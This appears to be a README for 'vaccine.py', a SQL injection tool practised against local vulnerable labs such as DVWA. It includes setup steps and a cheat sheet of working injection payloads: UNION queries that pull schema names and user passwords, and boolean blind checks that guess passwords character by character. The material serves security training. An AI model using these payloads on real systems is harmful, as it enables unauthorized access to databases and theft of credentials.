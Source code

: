 # Vaccine

## Usage

  ```
  usage: vaccine.py [-h] [-o O] [-x X] [-i] URL

  positional arguments:
    URL

  optional arguments:
    -h, --help  show this help message and exit
    -o O        Archive file, if not specified it will be stored in a default one.
    -x X        Type of request, if not specified GET will be used.
    -i          Specify talbe and column name using input.
  ```

- Start running docker containers
  ```
  make setup
  ```


### Damn Vulnerable Web Application [(github)](https://github.com/digininja/DVWA)

|  | data |
| - | - |
| url |  http://localhost:8080/vulnerabilities/sqli/index.php |
| method | GET |
| token | required |

1. Start docker container (`make setup`)
   ```
   docker run -it -d -p 8080:80 vulnerables/web-dvwa
   ```
2. Initialize database manually
   - http://localhost:8080/setup.php

3. Login manually
   - http://localhost:8080/login.php
   ```
   username: admin
   password: password
   ```

4. Get cookie
   - http://localhost:8080/index.php
   - get cookie value of `PHPSESSID`
     - inspect -> Application tab -> Storage -> Cookies

5. Set cookie to evn variable
   ```
   export TOKEN=YOUR_COOKIE
   ```

### sqli-playground [(github)](https://gitlab.cylab.be/cylab/play/sqlite-injection/)

|  | data |
| - | - |
| url | http://localhost:8000 | 
| method | POST |
| token | - |

1. Start docker container (`make setup`)
   ```
   docker run -d -p 8000:80 gitlab.cylab.be:8081/cylab/play/sqlite-injection
   ```

# SQL Injection

## Other SQL injection sites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--
